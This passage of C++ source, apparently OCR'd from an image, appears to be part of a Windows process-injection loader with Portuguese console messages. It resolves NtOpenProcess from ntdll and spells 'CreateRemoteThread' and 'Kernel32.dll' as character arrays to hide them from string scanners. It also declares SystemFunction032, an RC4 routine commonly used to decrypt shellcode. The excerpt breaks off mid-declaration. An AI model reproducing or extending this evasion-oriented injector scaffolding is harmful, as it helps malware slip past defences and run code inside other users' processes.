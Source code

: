 ```cpp
    SetConsoleTextAttribute(hConsole, color);
}

typedef struct _CLIENT_ID {
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG           Length;
    HANDLE          RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG           Attributes;
    PVOID           SecurityDescriptor;
    PVOID           SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

#define InitializeObjectAttributes(p, n, a, r, s) { \
    (p)->Length = sizeof(OBJECT_ATTRIBUTES);        \
    (p)->RootDirectory = r;                         \
    (p)->Attributes = a;                            \
    (p)->ObjectName = n;                            \
    (p)->SecurityDescriptor = s;                    \
    (p)->SecurityQualityOfService = NULL;           \
}

typedef NTSTATUS(NTAPI* NtOpenProcess_t)(PHANDLE ProcessHandle, ACCESS_MASK DesiredAccess, POBJECT_ATTRIBUTES ObjectAttributes, PCLIENT_ID ClientId);
typedef HANDLE(WINAPI* FuncaoThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);

FuncaoThread CriarThreadRemota;
char dllKernel[] = { 'K', 'e', 'r', 'n', 'e', 'l', '3', '2', '.', 'd', 'l', 'l', 0 };
char nomeFuncaoThread[] = { 'C','r','e','a','t','e','R','e','m','o','t','e','T','h','r','e','a','d',0 };

template<typename T>
T GetNtFunction(const char* funcName) {
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    if (!ntdll) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Falha ao obter identificador para ntdll.dll" << std::endl;
        return nullptr;
    }
    return reinterpret_cast<T>(GetProcAddress(ntdll, funcName));
}

typedef struct _USTRING {
	ULONG Length;
	ULONG MaximumLength;
	PWSTR Buffer;
} USTRING;

typedef LONG NTSTATUS;

typedef NTSTATUS(NTAPI* fnSystemFunction032)(
	USTRING* Img,
```